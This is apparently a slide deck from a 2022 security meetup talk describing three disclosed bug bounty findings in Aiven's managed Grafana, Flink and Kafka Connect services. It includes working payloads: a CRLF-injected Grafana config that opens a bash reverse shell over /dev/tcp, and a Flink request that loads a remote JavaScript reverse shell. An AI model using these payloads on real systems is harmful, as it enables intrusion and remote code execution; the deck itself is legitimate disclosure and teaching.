

# Hacking Aiven managed services for fun and profit

Jari Jääskelä, November 3. 2022, Helsec

---
layout: image-x
image: 'img/stats.png'
imageOrder: 2
---

# # whoami

- Bug Bounties since 2020
- "Full-time" for awhile at the start of 2022


<BarBottom title="hackerone.com/jarij">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---
layout: intro
---

# Overview

- About Bug Bounties
- Aiven Bug Bounty program
- Step-by-step explanation of a few bug bounty reports

---

# What are Bug Bounties?

- Hackers rewarded for discovering and reporting exploitable security issues in the bug bounty program in-scope assets
- Companies can create bug bounty programs for their assets on a managed platform (e.g, HackerOne, Intigriti) or create their own bug bounty platform (Google, Microsoft)


---

# What is Aiven?

- Managed service provider for Grafana, MySQL, PostgreSQL, etc ...
- Managed services hosted in Google Cloud, AWS, DigitalOcean, ... (customer can configure)
  - Infrastructure exists under Aiven's cloud account
- Customer does not have code execution access on managed services  


---

# Aiven Bug Bounty program


<BarBottom title="hackerone.com/aiven_ltd">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Aiven Bug Bounty program


<BarBottom title="hackerone.com/aiven_ltd">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE


- How the web backend updates the Grafana configuration?

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Let's look at the Grafana documentation


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Supports configuration via grafana.ini file:

```txt
app_mode = production
instance_name = ${HOSTNAME}
force_migration = false

[paths]
data = data
temp_data_lifetime = 24h
logs = data/log
plugins = data/plugins
provisioning = conf/provisioning
[server]
# Protocol (http, https, h2, socket)
protocol = http
```

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Likely Aiven creates grafana.ini dynamically from user input

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Q1: Can we edit unsupported configuration options by injecting newline characters?
- Q2: How this could be escalated to Remote Command Execution (RCE)?

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Testing for CRLF injection (\r\n) AKA newline injection
- Searched Aiven Github repositories in case something interesting was there
- <b>Found Service Configuration API input validation schema in Github [^1]</b>

[^1]: https://github.com/aiven/terraform-provider-aiven/blob/v2.1.9/aiven/templates/service_user_config_schema.json

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE - Q1

Example input validation entry:
```json
"recovery_basebackup_name": {
  "example": "backup-20191112t091354293891z",
  "maxLength": 128,
  "pattern": "^[a-zA-Z0-9-_:.]+$",
  "title": "Name of the basebackup to restore in forked service",
  "type": "string"
}
```

- Regex pattern validation
- `$` at the end == matches the end of the line == input cannot contain new line

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE - Q1

SMTP server parameters missing regex validation. CRLF injection possible!!!

```json
  "smtp_server": {
    "additionalproperties": false,
    "properties": {
      "from_name": {
        "maxLength": 128,
        "type": [
          "string"
        ]
      },
      "host": {
        "maxLength": 255,
        "type": "string"
      },
      "password": {
        "maxLength": 255,
        "type": [
          "string"
        ]
      }
    }
  }
```

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- Q1: Can we edit unsupported configuration options by injecting newline characters? ✅
- <b>Q2: How this could be escalated to Remote Command Execution (RCE)?</b>


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE - Q2


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE - Q2


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Grafana RCE

- <https://peter.sh/experiments/chromium-command-line-switches/>:


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Grafana RCE

- Verified that it works on local Grafana instance
- How to establish reverse shell:
```txt
[plugin.grafana-image-renderer]
rendering_args=--renderer-cmd-prefix=bash -c bash -l > /dev/tcp/SERVER_IP/4444 0<&1 2>&1
```

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- For some reason, could not pass white spaces, had to encode spaces using "$IFS"
- IFS env variable - Internal Field Seperator - can be used as space substitute

```txt
[plugin.grafana-image-renderer]
rendering_args=--renderer-cmd-prefix=bash$IFS-l$IFS>$IFS/dev/tcp/SERVER_IP/4444$IFS0<&1$IFS2>&1
```

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

```http
PUT /v1/project/PROJECT_NAME/service/GRAFANA_INSTANCE_NAME HTTP/1.1
Host: console.aiven.io
Authorization: aivenv1 AIVEN_TOKEN_HERE
Content-Type: application/json

{
    "user_config": {
        "smtp_server": {
            "host": "example.org",
            "port": 1,
            "from_address": "x@examle.org",
            "password": "x\r\n[plugin.grafana-image-renderer]\r\nrendering_args=--renderer-cmd-prefix=bash -c 
            bash$IFS-l$IFS>$IFS/dev/tcp/SERVER_IP/4444$IFS0<&1$IFS2>&1"
        }
    }
}
```

- After config update, trigger rendering by browsing to https://GRAFANA_INSTANCE_NAME.aivencloud.com/render/x

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- https://hackerone.com/reports/1200647

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

<video>
<source src="videos/flink.mp4" type="video/mp4">
</video>

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE


<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- Flink processes data from database, kafka or some other data source
- User can submit jobs that process data - these are java applications (JAR files) that contain user code
- Flink has Web UI and REST API

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Apache Flink RCE

- Aiven Flink Service does not allow running custom jobs
- Only SQL queries
- Web UI and REST API are accessible

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Apache Flink RCE

- Aiven blocked access to some REST API endpoints via reverse proxy rules (like uploading JAR files)


- However, all GET operations were still allowed


<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

Apache Flink Rest API documentation:


- Can specify java class name and class arguments !?! 🤔


<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- Reviewed Flink source code to confirm how it works
- Found that calls `main(String[])` method of the entry-class with the programArg values:

```java
private static void callMainMethod(Class<?> entryClass, String[] args) throws ProgramInvocationException {
    Method mainMethod;
    if (!Modifier.isPublic(entryClass.getModifiers())) {
        throw new ProgramInvocationException(
                "The class " + entryClass.getName() + " must be public.");
    }
    try {
        mainMethod = entryClass.getMethod("main", String[].class);
    } catch (NoSuchMethodException e) {
        throw new ProgramInvocationException(
                "The class " + entryClass.getName() + " has no main(String[]) method.");
    } catch (Throwable t) {
        // [...]
    }
}
```

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- How this can be used to execute arbitrary code on the Flink server?
- Searching Java JDK for "main(String[]":



- Found com.sun.tools.script.shell tool - same as the jrunscript command line tool

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE


<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- jrunscript uses Nashorn JavaScript engine
- To make delivering reverse shell payload easier, why not load it from remote JavaScript file?


<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE


- shell.js: [^1]

```js
var host = "https://evil.example.org";
var port = 8888;
var cmd = "/bin/bash";

var p = new java.lang.ProcessBuilder(cmd, "-i").redirectErrorStream(true) // [...]
```

[^1]: https://gist.github.com/frohoff/8e7c2bf3737032a25051

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

```http
GET /jars/145df7ff-c71a-4f3a-b77a-ee4055b1bede_a.jar/plan
?entry-class=com.sun.tools.script.shell.Main&programArg=-e,load("https://fs.bugbounty.jarijaas.fi/aiven-flink/shell-loader.js")
&parallelism=1 HTTP/1.1
Host: ████
Authorization: Basic █████
```

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

- https://hackerone.com/reports/1418891
- https://github.com/Jarijaas/helsec-1103/blob/master/pocs/flink.py

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE

<video>
<source src="videos/flink.mp4" type="video/mp4">
</video>

<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Apache Flink RCE


<BarBottom title="hackerone.com/reports/1418891">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- Tool for streaming data between Kafka and other data systems
- Streaming implemented using connectors
- Supports 3rd party connectors
- Connectors configurable via REST API
- Sink Connector = sends data from Kafka to the sink data system
- Source Connector = retrieves data from the source data system to Kafka

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- Aiven supports interesting connectors, such as [^1]:

| Connector |  |
|--------| -------  |
| JDBC Sink Connector       | Connect to database using JDBC driver |
| HTTP Sink       | Send data using HTTP request |
|        |

[^1]: https://docs.aiven.io/docs/products/kafka/kafka-connect/howto.html

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---


 # Kafka Connect RCE

- Found out that Jolokia is listening on localhost via logs
- Jolokia is a HTTP bridge to JMX (Java Management Extension)


<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

 # Kafka Connect RCE

- HTTP sink connector does not check if destination is localhost -> can send HTTP POST requests to Jolokia
- Can we use Jolokia to gain RCE?

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- Jolokia exposes the following command:
```json
"jvmtiAgentLoad": {
    "args": [{
        "name": "arguments",
        "type": "[Ljava.lang.String;",
        "desc": "Array of Diagnostic Commands Arguments and Options"
    }],
    "ret": "java.lang.String",
    "desc": "Load JVMTI native agent."
}
```

- Can use this to load JAR files from the disk

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- <b>How can we upload JAR file to the server?</b>

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE - What is a JAR file

- ZIP file that contains the compiled java application code
- JAR parsers, like ZIP parsers do not care if the JAR is inside another file format (just looks for file header signature: PK...)
- <b>Can embed JAR files inside another file format</b>

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE - SQLite JDBC Driver

- Bundled with Aiven JDBC sink connector
- SQLite database files are stored locally, can specify database filepath via connection url

Connection URL:
```text
jdbc:sqlite:/tmp/test.db
```

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- Use JDBC sink connector and the SQLite JDBC driver to create db file
- Create database table for the JAR and insert the JAR contents
- Load the file as JAR using Jolokia jvmtiAgentLoad command

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Kafka Connect RCE

- https://hackerone.com/reports/1547877
- https://github.com/Jarijaas/helsec-1103/blob/master/pocs/jdbc.py

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

 # Kafka Connect RCE

<video>
<source src="videos/kafka-connec-jdbc-jolokia.mp4" type="video/mp4">
</video>

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

 # Kafka Connect RCE

 

<BarBottom title="hackerone.com/reports/1547877">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Thank you!

- Any questions?
- Slides + PoC scripts: [^1]

[^1]: https://github.com/Jarijaas/helsec-1103

<BarBottom title="Thank you!">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
  <Item text="jarijaas">
    <carbon:logo-linkedin />
  </Item>
</BarBottom>